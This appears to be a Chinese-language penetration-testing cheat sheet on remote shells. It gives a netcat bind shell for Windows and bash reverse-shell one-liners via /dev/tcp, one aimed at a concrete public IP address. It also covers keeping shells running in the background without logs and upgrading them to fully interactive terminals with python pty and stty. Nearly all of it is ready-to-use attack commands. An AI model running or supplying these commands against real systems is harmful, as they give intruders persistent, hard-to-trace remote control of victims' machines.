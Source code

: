 正向shell连接
```
公网的目标windows:
c:\\nc.exe -e cmd -lvvp 2333
能出网的机子：
ncat 47.0.0.1 2333
```

^
## **反弹shell防断措施**
```
反弹端：nohup或screen后台弹
nohup /bin/bash -c "bash -i >& /dev/tcp/your_ip/your_port 0>&1"
nohup bash -i >& /dev/tcp/47.109.58.205/2333 0>&1

可以先反弹一个不稳定的shell，再反弹一个稳定的shell。



日志记录输出
nohup 命令 > myout.log 2>&1 &
nohup nc -lvvp 2333 > myout.log 2>&1 &

无日志
nohup 命令 2>&1 &
```

^
## **升级交互式shell**
/usr/bin/script -qc /bin/bash /dev/null

假设一个情况：如果当前拿到shell之后，我们想要使用vim、su或者想要tab补全代码、ctrl+c结束当前行代码、或者使用快捷键使用上一条命令，这个时候这个shell并不会对我们的操作进行响应，那么这个时候就需要升级shell成为交互式完美shell，使其跟我们常规命令行操作一样。

### 使用python pty
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
```
python3 -c "__import__('subprocess').call(['/bin/bash'])"



```
但是当前情况还是不能补全代码，得用stty来进行优化，来转换成完美shell
在执行完python命令之后，按下Ctrl+z
```
Linux 中Ctrl + c/d/z 看着都差不多，但是还是有不一样的含义
Ctrl + c 强制中断程序的执行，进程终止
Ctrl + d 发送EOF信号，很多程序接到这个信号后会停止
Ctrl + z 将任务中止，其实就是将这个任务暂停
```
按下Ctrl+z之后，nc反弹的shell放入了后台，界面退回到了攻击主机原本的shell
- `echo $TERM` 获取 term值
- `stty -a` 获取 rows 和 columns 的值
- `stty raw -echo` 关闭输入回显
- `fg` 进入前台，就是把刚才中止的nc连接捡回来
- `reset`
- `export SHELL=bash`
- `export TERM=[前面获取的term值]`
- `stty [前面获取的rows和columns值]`
这一套在ios系统里面不起作用，但在kali当中时可以完全解决的。
